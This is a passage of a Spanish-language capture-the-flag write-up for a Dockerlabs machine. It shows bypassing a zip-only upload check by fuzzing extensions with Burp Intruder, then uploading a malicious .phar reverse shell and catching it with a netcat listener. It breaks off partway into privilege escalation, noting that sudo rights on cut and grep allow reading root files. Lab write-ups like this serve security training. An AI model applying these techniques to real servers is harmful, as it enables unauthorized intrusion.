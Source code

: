 Al inspeccionar `machine.php`, se detectó una funcionalidad para subir archivos. Sin embargo, el sistema solo permitía archivos con la extensión `.zip`.

Inicialmente se intentó subir una reverse shell (`.php`), pero fue rechazada por la validación del servidor. Como alternativa, se decidió realizar _fuzzing_ al campo del archivo `.zip` usando **Burp Suite Intruder**, con el objetivo de encontrar extensiones permitidas dentro del archivo comprimido.

#### Fuzzing de extensiones con Burp Suite

Se configuró **Burp Intruder** para probar diferentes extensiones usando la lista `common_extensions.txt`. Se observó que únicamente los archivos con extensiones `.zip` y `.phar` devolvían una respuesta consistente (mismo **Content-Length** de 253), lo cual sugería que ambos tipos eran aceptados.

<img width="1468" height="780" alt="Image" src="https://github.com/user-attachments/assets/9e5c3e42-c9ed-47d8-a17e-c0e17030b164" />



#### Obtención de Reverse Shell

Con esta información, se creó un archivo `.phar` malicioso que contenía una reverse shell PHP. El archivo se subió exitosamente a través de la interfaz, y luego se accedió a él para activar la shell inversa.

```bash
                                                                 
┌──(zikuta㉿zikuta)-[~/Desktop]
└─$ nc -lvnp 4444        
listening on [any] 4444 ...
connect to [192.168.226.128] from (UNKNOWN) [172.17.0.2] 38076
Linux 332a950a1003 6.12.13-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.13-1kali1 (2025-02-11) x86_64 x86_64 x86_64 GNU/Linux
 01:25:18 up  2:08,  0 user,  load average: 0.24, 0.36, 1.43
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

La conexión se recibió correctamente, obteniendo una shell como el usuario **www-data**.

### Escalada de privilegios – _Dockerlabs_

Una vez obtenida la shell como el usuario restringido `www-data`, procedimos con la fase de **escalada de privilegios** para intentar obtener acceso como **root**.

```bash
 sudo -l
Matching Defaults entries for www-data on 332a950a1003:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on 332a950a1003:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep
```

Esto significa que `www-data` puede ejecutar `cut` y `grep` como el usuario **root** sin necesidad de autenticación (`NOPASSWD`). Esto es muy importante, ya que permite leer archivos arbitrarios del sistema si se usa de forma creativa.

